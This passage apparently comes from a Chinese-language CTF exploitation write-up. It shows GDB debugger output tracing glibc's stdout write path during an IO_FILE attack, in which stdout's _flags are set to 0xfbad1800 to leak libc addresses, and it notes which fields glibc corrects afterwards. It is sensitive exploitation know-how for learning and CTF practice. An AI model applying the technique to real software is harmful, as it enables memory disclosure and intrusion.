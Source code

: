 ```
 | 0x7ffff78523f0 <_IO_new_file_overflow+240>:	mov    rsi,QWORD PTR [rbx+0x20]
 | 0x7ffff78523f4 <_IO_new_file_overflow+244>:	mov    rdx,QWORD PTR [rbx+0x28]
 | 0x7ffff78523f8 <_IO_new_file_overflow+248>:	mov    rdi,rbx
 |->   0x7ffff7851ea0 <_IO_new_do_write>:	xor    eax,eax
       0x7ffff7851ea2 <_IO_new_do_write+2>:	test   rdx,rdx
       0x7ffff7851ea5 <_IO_new_do_write+5>:	jne    0x7ffff7851eb0 <_IO_new_do_write+16>
       0x7ffff7851ea7 <_IO_new_do_write+7>:	repz ret
                                                                  JUMP is taken
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
   0x7ffff7851f44 <_IO_new_do_write+164>:	mov    rdx,r12
   0x7ffff7851f47 <_IO_new_do_write+167>:	mov    rsi,r13
   0x7ffff7851f4a <_IO_new_do_write+170>:	mov    rdi,rbx
=> 0x7ffff7851f4d <_IO_new_do_write+173>:	call   QWORD PTR [r14+0x78]
   0x7ffff7851f51 <_IO_new_do_write+177>:	mov    rbp,rax
   0x7ffff7851f54 <_IO_new_do_write+180>:	movzx  eax,WORD PTR [rbx+0x80]
   0x7ffff7851f5b <_IO_new_do_write+187>:	test   rbp,rbp
   0x7ffff7851f5e <_IO_new_do_write+190>:	je     0x7ffff7851f65 <_IO_new_do_write+197>
Guessed arguments:
arg[0]: 0x7ffff7bb1760 --> 0xfbad1800 
arg[1]: 0x7ffff7bb1700 --> 0x0 
arg[2]: 0xe3 
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
[----------------------------------registers-----------------------------------]
RAX: 0xb40 ('@\x0b')
RBX: 0xe3 
RCX: 0xfbad1800 
RDX: 0xe3 
RSI: 0x7ffff7bb1700 --> 0x0 
RDI: 0x1 
RBP: 0x7ffff7bb1700 --> 0x0 
RSP: 0x7fffffffde10 --> 0x7fffffffdf20 --> 0x7fffffffdf40 --> 0x401370 (push   r15)
RIP: 0x7ffff78501b8 (<_IO_new_file_write+40>:	call   0x7ffff78d5140 <__GI___libc_write>)
R8 : 0x7ffff7fdd740 (0x00007ffff7fdd740)
R9 : 0x0 
R10: 0x7ffff7963cc0 --> 0x2000200020002 
R11: 0x246 
R12: 0x7ffff7bb1760 --> 0xfbad1800 
R13: 0xe3 
R14: 0x7ffff7bad2a0 --> 0x0 
R15: 0x7ffff7bac760 --> 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff78501ac <_IO_new_file_write+28>:	mov    rbx,rdx
   0x7ffff78501af <_IO_new_file_write+31>:	jmp    0x7ffff78501cd <_IO_new_file_write+61>
   0x7ffff78501b1 <_IO_new_file_write+33>:	nop    DWORD PTR [rax+0x0]
=> 0x7ffff78501b8 <_IO_new_file_write+40>:	call   0x7ffff78d5140 <__GI___libc_write>
   0x7ffff78501bd <_IO_new_file_write+45>:	test   rax,rax
   0x7ffff78501c0 <_IO_new_file_write+48>:	js     0x7ffff78501f0 <_IO_new_file_write+96>
   0x7ffff78501c2 <_IO_new_file_write+50>:	sub    rbx,rax
   0x7ffff78501c5 <_IO_new_file_write+53>:	add    rbp,rax
No argument

```
**调试 end......**
调试的时候发现：**调用完一次puts泄露出libc之后会对`_IO_read_ptr `等进行修正，但不会对_flags 进行修正**
```
# stdout被修改前
gdb-peda$ p *(struct _IO_FILE_plus *)0x00007ffff7bb1760
$2 = {
  file = {
    _flags = 0xfbad2887, 
    _IO_read_ptr = 0x7ffff7bb17e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_end = 0x7ffff7bb17e3 <_IO_2_1_stdout_+131> "\n", 
```
